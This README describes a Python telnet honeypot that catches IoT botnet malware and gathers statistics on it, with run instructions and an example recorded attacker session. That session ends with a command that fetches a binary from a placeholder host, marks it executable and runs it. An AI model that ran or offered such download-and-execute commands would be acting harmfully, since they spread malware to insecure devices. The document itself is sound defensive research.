

# Telnet IoT honeypot

Live Demo: http://phype.pythonanywhere.com/

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

Other than https://github.com/stamparm/hontel or https://github.com/micheloosterhof/cowrie (examples),
which provides full (via chroot) or simulated behaviour of a linux
system this honeypots goal is just to collect statistics of (IoT) botnets.
This means that the honeypot must be made to work with every form of automated telnet session,
which may try to infect the honeypot with malware.
Luckily, these malwares infection processes are quite simple,
just using wget do download something and running it.

## Architekure

The application has a client/server architekture,
with a client (the actual honeypot) accepting telnet connections
and a server aggregating connection data and sample analysis.

However, for local deployments, the application can also be run
in local mode to eliminate the need to run a client and server locally.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Client/Local Mode

	python honeypot.py

## Server

	python backend.py

## Opening the frontend

After the server is started, open `html/index.html` in your favorite browser.
For this to work, the url in `html/apiurl.js` should point to your running backend,
which it should do automatically for local deployments.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

